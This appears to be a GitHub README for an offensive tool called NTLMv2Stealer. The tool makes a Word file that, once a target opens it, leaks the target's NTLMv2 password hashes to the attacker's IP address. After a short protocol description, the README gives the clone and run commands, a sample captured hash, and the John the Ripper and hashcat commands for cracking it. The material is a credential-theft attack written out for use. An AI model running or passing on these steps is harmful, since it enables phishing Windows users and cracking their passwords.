 # NTLMv2Stealer
NTLMv2 hash stealer from remote windows computer

NTLM (NT LAN Manager) is a Microsoft security protocol that provides authentication, integrity, and confidentiality to users. It is typically used in Windows-based networks and is a challenge-response authentication protocol that uses a combination of a user's password and a system-generated challenge to create a unique cryptographic key for each session. NTLM is considered less secure than more modern protocols, such as Kerberos, and is being phased out by Microsoft in favor of other options.

##Installation & Usage
```sh
cd /opt && sudo git clone https://github.com/HamzMourid00/NTLMv2Stealer.git && cd NTLMv2Stealer && sudo chmod 777 NTLMv2Stealer
./NTLMv2Stealer 192.168.8.90 image.jpg word
```
After the target execute the word file you receive hashes in you session
##How to crack them

###Example
```
admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030
```
###cracking
```
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```
